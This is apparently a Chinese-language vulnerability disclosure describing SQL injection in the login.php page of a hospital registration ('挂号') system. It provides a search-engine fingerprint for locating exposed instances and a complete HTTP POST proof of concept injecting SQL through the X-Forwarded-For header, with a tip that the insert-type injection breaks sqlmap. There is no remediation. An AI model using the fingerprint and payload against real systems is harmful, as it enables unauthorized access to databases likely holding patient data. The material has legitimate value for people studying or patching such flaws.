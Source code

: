# 挂号系统login.php存在SQL注入漏洞

# 一、漏洞简介
挂号系统存在SQL注入，可能导致数据库信息泄露、恶意数据库操作

# 二、资产测绘
```plain
body="res/img/ht_box_back.gif" || body="/res/img/ht_box_top.gif" || body="/res/img/ht_box_bottom.gif" || body="dom_loaded.load(init);"
```

![1715188160121-e62854f9-b160-425b-821a-fd1b5485ce71.png](./img/F-XmhV62ILsZoyLF/1715188160121-e62854f9-b160-425b-821a-fd1b5485ce71-639679.png)

## 三、漏洞复现
```http
POST /m/login.php?op=login HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:125.0) Gecko/20100101 Firefox/125.0
Content-Type: application/x-www-form-urlencoded
x-forwarded-for: 127.0.0.1 'and exists(select * from mysql)-- 123

username=admin&password=admin&vcode=4997&to=&vcode_hash=03b498138c14b2d0515b5438808d6604
```

![1715224720711-eda57077-d9d0-466c-92d0-c91de443dbc9.png](./img/F-XmhV62ILsZoyLF/1715224720711-eda57077-d9d0-466c-92d0-c91de443dbc9-087014.png)

**<font style="color:#DF2A3F;">注入为insert类型，请勿使用sqlmap</font>**



> 更新: 2024-05-09 11:20:10  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/yfrf96eoc8tgqfau>